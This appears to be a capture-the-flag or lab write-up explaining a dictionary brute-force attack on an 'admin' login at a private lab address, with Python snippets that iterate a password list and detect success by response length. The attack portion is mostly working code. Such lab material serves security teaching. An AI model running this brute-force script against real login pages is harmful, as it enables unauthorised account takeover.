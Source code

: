 # Brute force login

### Introduction
Brute forcing involves attempting multiple combinations of passwords for a specific user until the correct password is discovered, granting access to the user's account.

### Procedure
Numerous brute force techniques exist, and our focus lies on the dictionary attack. This method involves systematically testing a list of potential passwords one by one until the correct password is successfully identified.

To accomplish this, we have created a small Python program, ``brute_force.py``, which attempts to authenticate to the ``admin`` account by testing passwords from a dictionary named ``dictionary.txt``. This dictionary contains the most popular passwords used by users in 2014.

### Program
We first starts by converting the lines of our dictionary into a list. This will allow us to successively trying each password from our list. 
```` python
def read_file(path: str):
	with open(path, 'r') as file:
		lines = []

		for line in file:
			lines.append(line.strip())

	return lines
````

Then, for each password in that list, we send a request to the server with the username ``admin`` using the function ``try_authentication``. Every time we attempt an incorrect password, the server responds with a specific length, in our case, 1988 characters. By recognizing this pattern, we can determine the correctness of a password based on the length of the response. Therefore, if a response has a different number of characters than 1988, we know the password is correct.
``` python
def try_authentication(wrong_request_length: int, username: str, password: str):
  print(f"[username: {username}] [password: {password}] => ", end="", flush=True)
  params = {
		'page': 'signin',
		'username': username,
		'password': password,
		'Login': 'Login'
	}

	encoded_params = urllib.parse.urlencode(params)

	url = 'http://192.168.56.2/?{}'.format(encoded_params)

	response = requests.get(url)
	success = len(response.text) != wrong_request_length
	print(success)

	return success, response.text
```

Once we find the correct password by print the response containing the flag we are looking for.
```python
for password in passwords:
	success, response = try_authentication(wrong_request_length, username, password)

	if success:
		print(response)
		return
```